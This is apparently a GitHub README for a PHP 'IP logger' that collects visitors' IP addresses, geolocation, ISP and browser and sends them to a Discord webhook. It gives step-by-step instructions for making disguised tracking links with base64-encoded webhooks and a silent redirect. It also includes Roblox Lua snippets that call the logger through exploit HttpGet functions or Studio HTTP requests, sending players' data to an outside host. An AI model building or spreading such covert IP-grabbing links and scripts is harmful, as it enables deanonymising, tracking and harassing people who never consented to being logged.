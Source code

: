 # Webhook-IP-Logger
This is a PHP IP logger I made that sends the IP's to a Discord webhook.  
![Showcase with bot filtering turned off](https://vgy.me/MiiQN2.png)
# Features
- Grabs the IP then gets info about it after that it sends it to a webhook you have entered.  
- Gets Geo Location & ISP aswell as the browser  
- Filters out bots  
- ROBLOX Lua script for it (for exploits that have HttpGet or ROBLOX Studio)  
- My site has a script incase you don't have a site  
# How to use without a website
Step 1: Go into the settings of your Discord server, click webhooks and create one then copy the link to it.  
Step 3: Remove https://discordapp.com/api/webhooks/  
Step 3: Encode it in Base64  
Step 5: Add it to the end of https://littest.site/yeet/site.php?h=  
Step 6: [Optional] If you want to redirect to a site add &r= then a website(make sure to encode it in base64)  
**[Example]**  
https://littest.site/yeet/site.php?h=aG9vaw==&r=aHR0cHM6Ly9saXR0ZXN0LnNpdGU=  
**[Base64 Encoding]**  
I would reccomend using this site. https://www.base64encode.org/
# How to use it on ROBLOX
Step 1: Complete the tutorial above on getting an IP logger link, unless you have your own site.  
Step 2: Put the link of the IP logger in between the qoutations. Exploits is for a script that will only work on  
**[Exploits]**  
```lua
game:HttpGet("Site Here")
```
**[Roblox Studio]**  
```lua
game:GetService("HttpService"):GetAsync("Site Here")
```
**[Example]**  
```lua
game:HttpGet("https://littest.site/yeet/site.php?h=aG9vaw==")```

